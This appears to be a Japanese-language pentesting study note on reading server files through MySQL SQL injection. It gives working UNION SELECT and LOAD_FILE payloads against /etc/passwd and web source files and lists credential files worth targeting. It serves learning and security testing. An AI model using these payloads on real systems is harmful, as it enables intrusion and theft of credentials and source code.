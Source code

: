 # ファイル読み取り

- 目的
	- SQLインジェクションを使って、**サーバ上のファイル内容を盗み見る**
	- 条件：DBユーザーが `FILE` 権限を持っていること

- 前提確認
	- まずは現在のDBユーザーを確認する
		- `SELECT USER();` または `SELECT CURRENT_USER();`
		- インジェクション例
```sql
' UNION SELECT 1, user(), 3, 4-- -
```
- 出力が `root@localhost` のような管理者ならチャンスあり

- 権限の確認
- `FILE` や `SUPER` 権限があるかをチェック
	- `SELECT super_priv FROM mysql.user WHERE user='root'`
	- `SELECT privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"`

- ファイル読み込み方法（LOAD_FILE）
	- MySQL/MariaDBの関数 `LOAD_FILE('<ファイルパス>')` を使用
	- 使用例：`LOAD_FILE('/etc/passwd')`
インジェクション例
```sql
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -
```
- ※ `/etc/passwd` はLinuxのユーザー情報が書かれているファイル

- 出力確認ポイント
	- `root:x:0:0:root:/root:/bin/bash` → `/etc/passwd`が読めている証拠
	- HTMLファイルを読んだ場合は、ソースを「Ctrl + U」で確認

- ソースコードの読み取り
	- Webアプリのソース（例：`/var/www/html/search.php`）も対象
```sql
' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -
```
- 出力確認
	- webページbのコードを読む
	- DB接続情報（ホスト名・ユーザー・パスワード）
	- 脆弱なSQL文やヒントになる処理

- 注意点
	- 読めるかどうかは、**MySQLが動いているOSユーザーのファイル権限に依存**
	- `secure_file_priv` の設定によって制限されている可能性もある

- よく狙われるファイル
	- `/etc/passwd`（UNIXユーザー一覧）
	- `/var/www/html/*.php`（アプリケーションのソースコード）
	- `.env` や `config.php`（環境変数・認証情報）


# ファイル書き込み
